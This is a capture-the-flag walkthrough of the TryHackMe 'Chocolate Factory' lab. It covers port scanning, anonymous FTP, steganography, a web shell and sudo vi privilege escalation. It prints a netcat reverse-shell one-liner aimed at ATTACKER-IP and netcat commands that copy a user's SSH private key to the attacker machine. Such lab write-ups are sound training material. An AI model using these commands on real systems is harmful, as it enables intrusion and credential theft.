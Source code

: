 # Chocolate Factory

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/e2eed78e92b4890174e0a2510b6e7a7c.jpeg)

## Difficulty = Easy

***


Running our nmap scan we have -:

```bash
# Nmap 7.94 scan initiated Tue Oct 24 20:57:20 2023 as: nmap -p- -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.122.96
Increasing send delay for 10.10.122.96 from 0 to 5 due to 181 out of 451 dropped probes since last increase.
Warning: 10.10.122.96 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.122.96
Host is up (0.14s latency).
Not shown: 61913 closed tcp ports (conn-refused), 3593 filtered tcp ports (no-response)
Bug in dicom-ping: no string output.
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.75.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
100/tcp open  newacct?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
101/tcp open  hostname?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"

--SNIP--
```

Logging in to `FTP` as anonymous, we have a `gum_room.jpg` file, which we can download using the `mget` command

![](https://i.imgur.com/9eF1nYO.png)

Running `stegseek` on the image we found a file with a **base64** encoded text

![](https://i.imgur.com/9jDBkZn.png)


Decoding with **cyberchef** we have user **charlie** hash in `SHA-512 Crypt` format

![](https://i.imgur.com/wxKF5DU.png)

Tried cracking this hash but to no avail, so i decided to check port `80/HTTP`

![](https://i.imgur.com/vhDhAzC.png)

Tried login in, also to no avail, Running dir/file bruteforce with `dirsearch` we have few entries


![](https://i.imgur.com/duGfFzg.png)

checking `/home.php` we have a web shell 😂

![](https://i.imgur.com/5drmyPp.png)

We can go ahead and start up our listener in `netcat` and get a reverse shell with the below payload

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP 4444 >/tmp/f
```


![](https://i.imgur.com/5j8PRUp.png)

checking `/var/www/html`, looks like we found the key **tryhackme** talked about

![](https://i.imgur.com/fgyUeas.png)

Concatenating `validate.php` in this same directory we have user **charlie's** password

![](https://i.imgur.com/AKRdHHQ.png)

This password doesn't seem to work for user **charlie** when switching but it works on the website and refer us back to that command injection page

![](https://i.imgur.com/7iTTOaA.png)

Navigating to user **charlie** home directory, i found a teleport file that contains an `SSH` id_rsa 

![](https://i.imgur.com/UuscklX.png)

we can go ahead and send it to our attacker machine using `netcat`

```bash
# on target machine
$ cat teleport | nc -lp 1234

# on attacker machine
$ nc 10.10.224.194 1234 > teleport
```


![](https://i.imgur.com/JZAR9mB.png)


> **Note :** wait for few seconds, maybe 30 for the file to transfer cos' you won't see a prompt that it has been transferred then hit `Ctrl+C` on attacker machine to break connection


We logged in as user **charlie** via `SSH` using the private key


![](https://i.imgur.com/6dsjHxj.png)


Running `sudo -l` we can run `/usr/bin/vi` with sudo privileges without a password

![](https://i.imgur.com/kZd26Rb.png)

run `sudo /usr/bin/vi` and you should get a vi prompt

![](https://i.imgur.com/l1iuF00.png)


Then just type in`:shell` to spawn a shell with vi

![](https://i.imgur.com/zpUSLlN.png)

Click enter and you should be user **root**


![](https://i.imgur.com/73SzmFz.png)

Trying to read the root flag located under `/root/root.py` we have a program to give us the root flag

![](https://i.imgur.com/dOKHV1t.png)

Remember the key **tryhackme** asked us for ??, well use it and you should  get the root flag

![](https://i.imgur.com/Vx1Rtvs.png)



GG 😎


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
